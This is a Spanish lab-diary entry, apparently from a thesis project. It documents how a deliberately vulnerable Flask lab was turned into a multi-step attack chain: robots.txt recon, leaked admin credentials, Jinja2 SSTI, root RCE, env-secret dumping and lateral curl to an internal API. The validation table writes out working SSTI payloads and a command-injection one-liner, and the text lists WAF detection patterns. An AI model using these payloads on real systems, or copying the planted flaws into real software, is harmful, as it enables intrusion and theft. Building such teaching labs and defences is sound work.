

# Sesión de refactorización — Escenario A hacia formato HTB Academy

> **Periodo:** 7 de mayo – 9 de mayo de 2026
> **Propósito de este documento:** Registro cronológico e inmutable de la sesión en la que el Escenario A pasó de ser un endpoint vulnerable suelto (`/diagnostico` con `os.popen`) a una **cadena de ataque encadenada estilo Hack The Box Academy** (recon → information disclosure → autenticación con credenciales filtradas → SSTI Jinja2 → RCE → post-explotación lateral). Este documento es independiente de [20260505_Sesion_Diseno_EscenarioA.md](20260505_Sesion_Diseno_EscenarioA.md) y de [20260419_Prototipo_Red_Perimetral.md](../01_investigacion/20260419_Prototipo_Red_Perimetral.md), que se mantienen como fotografías de la sesión anterior.

---

## Índice

1. [Punto de partida — estado heredado](#1-punto-de-partida--estado-heredado)
2. [Disparador del cambio](#2-disparador-del-cambio)
3. [Opciones evaluadas](#3-opciones-evaluadas)
4. [Decisión tomada y razonamiento](#4-decisión-tomada-y-razonamiento)
5. [Diseño final de la cadena de ataque](#5-diseño-final-de-la-cadena-de-ataque)
6. [Antes / Después por fichero](#6-antes--después-por-fichero)
7. [Deltas respecto al prototipo original](#7-deltas-respecto-al-prototipo-red-perimetral-original)
8. [Estado al cerrar la sesión](#8-estado-al-cerrar-la-sesión)

---

## 1. Punto de partida — estado heredado

Al abrir esta sesión, el entorno dejado por [20260505_Sesion_Diseno_EscenarioA.md](20260505_Sesion_Diseno_EscenarioA.md) ya levantaba los 4 contenedores correctamente (validado el 7 de mayo con `docker compose up --build`):

- `nginx` reverse proxy en `:80`
- `webapp` Flask con un único endpoint vulnerable `/diagnostico?host=...` que ejecutaba `os.popen(f"ping -c 1 {host}").read()`
- `backend` API Flask sin autenticación con `/empleados`
- `db` PostgreSQL con la tabla `empleados` (Ana, Luis, Sara)

La cadena de ataque era trivial: `curl http://localhost/diagnostico?host=8.8.8.8;cat /etc/passwd`. Un único *one-shot*.

Estado documental al inicio de la sesión:
- `20260505_Sesion_Diseno_EscenarioA.md` — diseño inicial y primera implementación
- `20260419_Prototipo_Red_Perimetral.md` — referencia técnica con flujo de ataque clásico (pasos 1–6)

---

## 2. Disparador del cambio

Tras la primera carga del portal en navegador, surgió la observación:

> *"El HTML está en blanco y con todo a la vista, no parece real ni creíble."*

El problema diagnosticado:

- **Realismo nulo:** una página HTML sin estilos, con un formulario de "ping" en la home pública, no se parece a una aplicación corporativa real. Un tribunal técnico lo lee como un *toy example*.
- **Cadena de ataque artificial:** un solo *one-shot* sobre un endpoint vulnerable evidente no representa la metodología real de un atacante (recon → discovery → auth → exploit → post-exploit).
- **Argumento Zero Trust débil:** una sola vulnerabilidad da poca superficie para justificar varios controles de Zero Trust. Cuantos más pasos tenga la cadena, más controles diferentes se pueden contraponer en el Escenario B.

El objetivo de la sesión: **convertir el escenario en un laboratorio estilo Hack The Box Academy** sin romper la arquitectura de 3 capas ni la narrativa Zero Trust.

---

## 3. Opciones evaluadas

| Opción | Coste estimado | Realismo | Compatibilidad arquitectura | Veredicto |
|---|---|---|---|---|
| **A.** WordPress vulnerable (backup file read) | 8–15h | Alto | ❌ Rompe stack (PHP+MariaDB) y arquitectura 3 capas | Descartado |
| **B.** File upload tipo CVE-2015-6967 (Nibbleblog) | 5–8h | Alto | ⚠️ Requiere contenedor PHP nuevo | Descartado |
| **C.** PHP RCE / webshell | 6–10h | Alto | ❌ Cambia el stack | Descartado |
| **D.** SSTI en Jinja2 (mismo stack Flask) | ~1h vector + UI | Alto (CVE-class) | ✅ Mantiene Flask + Jinja2 | **Elegido** |
| **E.** SQLi en login | ~2h | Medio | ✅ pero no da RCE en webapp | Complementario, no suficiente |

Discusión completa registrada en el chat de planificación previo. La conversación incluyó la evaluación de mover el ataque a un módulo HTB-style con cadena multipaso, y la decisión final fue ampliar el alcance de "vector único" a "cadena de 5 pasos".

---

## 4. Decisión tomada y razonamiento

**Decisión:** mantener la arquitectura intacta y refactorizar únicamente la capa de presentación de `webapp` y la posición de la vulnerabilidad. Adoptar la cadena:

> Recon (`robots.txt` + `/backup.txt`) → credenciales filtradas (`admin:Empresa2026!`) → login en `/admin` → SSTI Jinja2 en `/admin/diagnostico` autenticado → RCE → post-explotación lateral.

**Razonamiento técnico:**

- **Cero coste de stack:** Jinja2 ya viene con Flask. No hay nuevas imágenes, dependencias ni servicios.
- **CVE-class reconocible:** el payload `{{ config.__class__.__init__.__globals__['os'].popen('id').read() }}` es el patrón canónico de SSTI en Flask publicado en OWASP y aparece literalmente en módulos de HTB Academy. Es citable directamente en la memoria.
- **Multiplica los CWE en juego:** la cadena introduce CWE-200 (Information Exposure), CWE-204 (Response Discrepancy en login), CWE-1336 / CWE-94 (SSTI → Code Injection), además del CWE-78 ya presente en el flujo lateral con `popen`. Cada CWE es una sección distinta para argumentar Zero Trust.
- **No rompe la arquitectura:** todas las modificaciones quedan dentro de `infra/perimetral/webapp/`. `nginx`, `backend`, `db` y `docker-compose.yaml` no se tocan.
- **Cobertura presupuestaria:** estimación inicial de 8–10h, ejecución real ~6h.

**Decisión paralela:** posicionar la vulnerabilidad SSTI **detrás del login**, no en la home pública. Razones:
- Realismo: los paneles de diagnóstico/health/debug son donde aparecen estos fallos en la vida real (CVE-2018-19571 GitLab, CVE-2019-8341 Flask apps).
- Soporte a la tesis ZT: el ataque pasa de tener 1 paso bloqueable a tener 4. Cada paso es un control distinto que ZT podría imponer (no exposición de ficheros, autenticación fuerte, monitorización de patrones SSTI, microsegmentación).

---

## 5. Diseño final de la cadena de ataque



**Cadena en 11 pasos numerados (perspectiva atacante):**

1. **Acceso al portal:** `curl http://localhost/` muestra una web Bootstrap aparentemente benigna.
2. **Recon HTTP:** `curl -I http://localhost/` revela `X-Powered-By: Empresa-Portal/1.4.2`.
3. **Recon de rutas:** `curl http://localhost/robots.txt` lista `/admin`, `/backup.txt`, `/api/`, `/internal/`.
4. **Information disclosure:** `curl http://localhost/backup.txt` devuelve notas del sysadmin con `admin:Empresa2026!`.
5. **Descubrimiento del panel:** `curl http://localhost/admin` redirige a `/admin/login`.
6. **Autenticación:** POST con las credenciales filtradas → 302 a `/admin/dashboard` + cookie.
7. **Exploración del dashboard:** una card enlaza a `/admin/diagnostico`.
8. **Confirmación SSTI:** `?host={{7*7}}` → respuesta contiene `49`.
9. **RCE vía SSTI:** payload Flask canónico ejecuta `id` → `uid=0(root)`.
10. **Post-explotación lateral:** desde la SSTI, `env` revela `DB_PASSWORD=supersecret`; `curl http://backend:5000/empleados` exfiltra la API interna.
11. **Objetivo final:** dump completo de la tabla `empleados` y de las variables de entorno.

---

## 6. Antes / Después por fichero

### `infra/perimetral/webapp/app.py`

| Antes | Después |
|---|---|
| 38 líneas | ~140 líneas |
| 2 rutas: `/`, `/diagnostico` | 8 rutas: `/`, `/robots.txt`, `/backup.txt`, `/admin`, `/admin/login`, `/admin/logout`, `/admin/dashboard`, `/admin/diagnostico` |
| Vulnerabilidad: `os.popen(f"ping -c 1 {host}")` (CWE-78 directo) | Vulnerabilidad: `render_template_string(plantilla)` con `host` interpolado (CWE-1336 SSTI → RCE) |
| HTML inline con `render_template_string` | Sistema de plantillas Jinja2 (`render_template`) con `templates/` |
| Sin sesiones | `flask.session` + decorator `login_required` |
| Sin headers custom | `@app.after_request` añade `X-Powered-By: Empresa-Portal/1.4.2` |
| Sin recon assets | `send_from_directory("static", ...)` para `robots.txt` y `backup.txt` |

### `infra/perimetral/webapp/templates/` (NUEVO)

5 plantillas creadas:
- `base.html` — layout Bootstrap 5 (CDN), navbar, footer con versión, comentario HTML con breadcrumb a `/admin`
- `portal.html` — hero corporativo, card grid de empleados, sección de contacto
- `login.html` — formulario centrado, mensajes de error diferenciados (user enumeration intencional)
- `dashboard.html` — landing autenticada con cards de "Estado", "Accesos recientes", "Diagnóstico"
- `diagnostico.html` — formulario + `<pre>` para el resultado, breadcrumb de navegación

### `infra/perimetral/webapp/static/` (NUEVO)

- `robots.txt` — declara 4 rutas como `Disallow:` (algunas reales, otras señuelo)
- `backup.txt` — texto plano simulando notas del sysadmin con credenciales en sección `[panel-admin]`

### `infra/perimetral/webapp/Dockerfile`

| Antes | Después |
|---|---|
| `COPY app.py .` | `COPY app.py .` + `COPY templates/ ./templates/` + `COPY static/ ./static/` |

### `infra/perimetral/webapp/requirements.txt`

Sin cambios. Flask y `requests` cubren todo (Jinja2 viene con Flask).

### Ficheros NO tocados (por preservación arquitectónica)

- `infra/perimetral/docker-compose.yaml`
- `infra/perimetral/nginx/nginx.conf`
- `infra/perimetral/backend/` (Dockerfile, app.py, requirements.txt)
- `infra/perimetral/db/init.sql`

### Documentación NO tocada (por filosofía de fotografías inmutables)

- `docs/04_diario_laboratorio/20260505_Sesion_Diseno_EscenarioA.md`
- `docs/01_investigacion/20260419_Prototipo_Red_Perimetral.md`

Cualquier delta con respecto al diseño original se registra en este documento, no editando los previos.

---

## 7. Deltas respecto al `20260419_Prototipo_Red_Perimetral.md` original

Esta sección recoge qué partes del prototipo original siguen vigentes y qué partes han sido superadas por esta sesión.

### Sigue vigente

- **Topología de red** (sección 3.1 del prototipo): dos redes `net_dmz` / `net_interna`, mismos 4 servicios, mismas IPs.
- **Modelo de amenaza** (sección 2): atacante externo no privilegiado con RCE en webapp. Sigue siendo el punto de partida tras la cadena.
- **Decisión de dos redes** (sección 4): el argumento DMZ + interna se mantiene intacto.
- **Post-explotación** (pasos 4–6 del prototipo): exfiltración de credenciales con `env`, acceso a `db` con `psql`, movimiento lateral a `backend`. Idéntico.
- **Puntos débiles 1, 3, 4, 5, 6** (sección 9): siguen aplicando.

### Superado / refinado

| Original (Prototipo, sección 7) | Refinamiento de esta sesión |
|---|---|
| Paso 1: nmap dentro del contenedor | Sigue válido como post-explotación, pero el ataque ya no parte de "RCE asumida" — la RCE ahora se obtiene en los pasos 1–9 de la cadena nueva |
| Paso 2: identificación de servicios | Igual, dentro de la post-explotación |
| Paso 3: `env | grep password` | Igual |
| Paso 4: `psql -h db` | Igual |
| Paso 5: `curl http://backend:5000/api/datos` | El endpoint actual es `/empleados`, no `/api/datos` |
| Paso 6: `tcpdump -i eth0` | Sigue válido como demostración opcional |

### Nuevos puntos débiles añadidos a documentar en el TFG

A los 6 puntos débiles originales hay que sumar:

- **CWE-200 — Information Exposure** (`/backup.txt` accesible públicamente con credenciales).
- **CWE-204 — Response Discrepancy** (mensajes de error de login diferenciados → user enumeration).
- **CWE-1336 / CWE-94 — Server-Side Template Injection** (concatenación de input no sanitizado dentro de `render_template_string`).
- **CWE-798 — Use of Hard-coded Credentials** (admin:Empresa2026! hardcodeado en `webapp/app.py`).
- **CWE-200 vía banner grabbing** (header `X-Powered-By: Empresa-Portal/1.4.2`).

### KPIs nuevos a medir

A los KPIs del prototipo original hay que añadir:

| Métrica nueva | Escenario A (perimetral) |
|---|---|
| Tiempo desde GET / hasta credenciales obtenidas (recon → backup) | _por medir_ |
| Tiempo desde credenciales hasta RCE confirmada (login → SSTI) | _por medir_ |
| Número de pasos previos al RCE | 4 (recon, disclosure, login, SSTI) |
| Endpoints públicos que filtran información | 3 (`/`, `/robots.txt`, `/backup.txt`) |
| CWE distintos materializables en la cadena | 5 |

---

## 8. Estado al cerrar la sesión

### Validación end-to-end ejecutada el 9 de mayo

Con el entorno levantado (`docker compose up --build -d`), la cadena se validó desde dentro del contenedor `webapp` apuntando a `nginx`:

| Paso | Comando | Resultado |
|---|---|---|
| Portal | `curl -I http://nginx/` | `200 OK` + `X-Powered-By: Empresa-Portal/1.4.2` |
| robots.txt | `curl http://nginx/robots.txt` | Lista 4 rutas `Disallow` |
| backup.txt | `curl http://nginx/backup.txt` | Devuelve credenciales `admin:Empresa2026!` |
| Login | `POST /admin/login` con creds | `302 Location: /admin/dashboard` + cookie de sesión |
| Dashboard | `GET /admin/dashboard` con cookie | Renderiza dashboard autenticado |
| SSTI smoke | `?host={{7*7}}` | Renderiza `49` en `<pre>` |
| RCE id | `?host={{ config.__class__.__init__.__globals__['os'].popen('id').read() }}` | `uid=0(root) gid=0(root) groups=0(root)` |
| RCE env | `?host={{ ...popen('env')... }}` | `DB_PASSWORD=supersecret` exfiltrado |
| Lateral | `?host={{ ...popen('curl -s http://backend:5000/empleados')... }}` | JSON con Ana, Luis, Sara |

### Ficheros añadidos / modificados

```
infra/perimetral/webapp/
├── app.py                       (REESCRITURA)
├── Dockerfile                   (EDITAR)
├── requirements.txt             (sin cambios)
├── templates/                   (NUEVO)
│   ├── base.html
│   ├── portal.html
│   ├── login.html
│   ├── dashboard.html
│   └── diagnostico.html
└── static/                      (NUEVO)
    ├── robots.txt
    └── backup.txt
```

### Pendiente (no incluido en el alcance de esta sesión)

- Capturar evidencias gráficas (capturas de navegador) para la memoria del TFG.
- Añadir contenedor `attacker` con Kali (perfil `attack`) para que el ataque sea ejecutable desde un host dedicado en lugar de `docker compose exec webapp`.
- Scripts automatizados de explotación (Bash/Python) reproduciendo los 11 pasos.
- Cronometrar los KPIs nuevos definidos en la sección 7.

### Próxima sesión sugerida

Una vez consolidado el Escenario A con esta cadena estilo HTB, el siguiente bloque del roadmap es **Escenario B (Zero Trust + Wazuh)**. La cadena nueva da material concreto para diseñar las políticas Zero Trust:

- Política A: bloquear acceso público a `/backup.txt` y `/robots.txt` no necesarios.
- Política B: MFA obligatorio en `/admin` (deshabilitar credenciales hardcodeadas).
- Política C: detección WAF de patrones SSTI (`{{`, `__class__`, `__globals__`).
- Política D: microsegmentación que bloquea `webapp → backend` salvo flujos validados con identidad.
- Política E: rotación obligatoria de secretos vía vault, no variables de entorno.
- Política F: monitorización SIEM (Wazuh) de cualquier proceso hijo de Flask que ejecute binarios del sistema.

Cada una de estas políticas es directamente comparable contra los pasos correspondientes de la cadena de ataque.
